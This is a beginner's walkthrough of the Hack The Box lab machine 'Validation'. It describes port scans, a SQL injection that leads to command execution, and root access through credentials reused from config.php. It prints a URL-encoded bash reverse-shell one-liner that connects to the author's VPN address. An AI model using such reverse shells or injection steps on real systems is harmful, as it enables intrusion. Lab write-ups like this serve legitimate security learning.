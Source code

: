 # Validation

This is my write-up for the machine called **Validation** located at: [https://app.hackthebox.com/machines/Validation](https://app.hackthebox.com/machines/Validation).&#x20;

{% hint style="info" %}
I am a beginner at penetration testing, so I will be referencing the Official Hack The Box Walk-through for this machine.
{% endhint %}

rustscan: rustscan -a 10.10.11.116

![](<../../.gitbook/assets/image (349) (1) (1) (1).png>)

Going to port 80, we see this page:

![](<../../.gitbook/assets/image (338) (1) (1) (1) (1).png>)

On Hack The Box, I got a hint from one of the tags from the machine:

![](<../../.gitbook/assets/image (352) (1) (1) (1).png>)

It seems that I need to run some type of SQL Injection on the page. After trying a bunch of SQL queries, I ended up running an nmap scan on the machine, since according to the walk-through, I had missed a bunch of open ports using rust scan:

![](<../../.gitbook/assets/image (350) (1) (1) (1) (1) (1) (1).png>)

After I got stuck, I found [this write-up](https://solomon-sec.com/hack-the-box-validation-walkthrough/) that basically made it understand where the vulnerability was:

![](<../../.gitbook/assets/image (345) (1) (1) (1) (1) (1).png>)

I then got the following output:

![](<../../.gitbook/assets/image (342) (1) (1) (1) (1).png>)

This showed me that this is vulnerable to SQL Injection. Viewing the same write-up, I then changed the parameters to then submit to the website:

![](<../../.gitbook/assets/image (351) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (335) (1) (1) (1) (1).png>)

I then got stuck again and then watched [this video](https://youtu.be/dFKsSYVeVbI) that assisted a bit more in the understanding of what I was messing up on. I found out that I had to run the command to get a shell on the system:

![](<../../.gitbook/assets/image (341) (1) (1) (1) (1) (1) (1).png>)

After I ran this command, I was able to run commands on the system:

![](<../../.gitbook/assets/image (328) (1) (1).png>)

Apparently the IP Addresses of the VPN you are using on HTB can change, which was something I did not know. When I ran **ifconfig**, I understood why my reverse shell command was not working when I tried it. In any case, I got the reverse shell by running the following command (recommended by the official write-up and modified to work for me):

`bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.14/1234+0>%261'`

In order to get this to work though, you have to change your request from GET to POST, which can be done by clicking on the button below:

![](<../../.gitbook/assets/image (340) (1) (1) (1) (1) (1).png>)

You can then submit the command, as seen in the image above. After I had the shell, the first thing I did was find the user.txt file:

![](<../../.gitbook/assets/image (344) (1) (1) (1) (1).png>)

I was trying to find a way to upload **linpeas.sh** or get a way to see what access I had, but I ended up getting nowhere. On the official write-up, the credentials I had seen earlier in config.php, were the credentials for the root user:

![](<../../.gitbook/assets/image (329) (1) (1).png>)

I was then able to get the flag using the root access.
